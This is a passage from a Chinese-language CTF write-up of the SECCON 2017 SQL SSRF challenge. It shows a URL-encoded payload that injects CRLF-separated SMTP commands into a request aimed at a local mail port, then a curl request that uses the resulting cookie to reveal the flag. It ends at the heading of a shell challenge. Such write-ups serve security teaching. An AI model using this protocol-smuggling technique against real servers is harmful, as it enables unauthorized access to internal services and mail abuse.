 送過去要 urlencode
```
127.0.0.1%0D%0AHELO%20admin%0D%0AMAIL%20FROM%3A%3Cmyemail%40gmail.com%3E%0D%0ARCPT%20TO%3A%3Croot%40ymzk01.pwn%3E%0D%0ADATA%0D%0AFrom%3Amyemail%40gmail.com%0D%0ATo%3Aroot%40ymzk01.pwn%0D%0ASubject%3Agive%20me%20flag%0D%0Agive%20me%20flag%0D%0A.%0D%0AQUIT%0D%0A%:25/
```




這樣可以收到信

Encrypted-FLAG: 37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19

之後一樣利用 cookie 解密即可

```
root@lubun1704:~# curl "sqlsrf.pwn.seccon.jp//sqlsrf/index.cgi?" -d 'login=Login&save=1&user=&pass=admin' --cookie "remember=37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19"


<!DOCTYPE html
        PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="ja" xml:lang="ja">
<head>
<title>SECCON 2017</title>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body bgcolor="black">
<!-- The Kusomon by KeigoYAMAZAKI, 2017 -->
<div style="background:#000 url(./bg-header.jpg) 50% 50% no-repeat;position:fixed;width:100%;height:300px;top:0;">
</div>
<div style="position:relative;top:300px;color:white;text-align:center;">
<h1>Login</h1>
<form action="?" method="post"><h2 style="color:red">Login Error!</h2>
<table border="0" align="center" style="background:white;color:black;padding:50px;border:1px solid darkgray;">
<tr><td>Username:</td><td><input type="text" name="user" value="SECCON{SSRFisMyFriend!}"></td></tr>
<tr><td>Password:</td><td><input type="password" name="pass" value=""></td></tr>
<tr><td colspan="2"><input type="checkbox" name="save" value="1">Remember Me</td></tr>
<tr><td colspan="2" align="right"><input type="submit" name="login" value="Login"></td></tr>
</table>
</form>
</div>
</body>
</html>
```

## automatic_door
> Description:
>
> Get shell, and execute /flag_x
